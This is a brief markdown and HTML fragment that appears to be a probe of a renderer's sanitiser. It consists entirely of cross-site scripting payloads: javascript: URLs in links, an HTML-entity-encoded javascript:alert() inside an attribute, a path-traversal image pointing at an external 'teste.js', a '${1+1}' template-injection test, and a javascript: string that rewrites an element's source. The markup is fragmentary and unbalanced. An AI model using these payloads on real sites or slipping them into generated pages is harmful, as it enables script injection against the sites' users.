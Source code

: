 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<a href="\javascript://alert(2)/,javascript:alert(1)</title>//#">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()

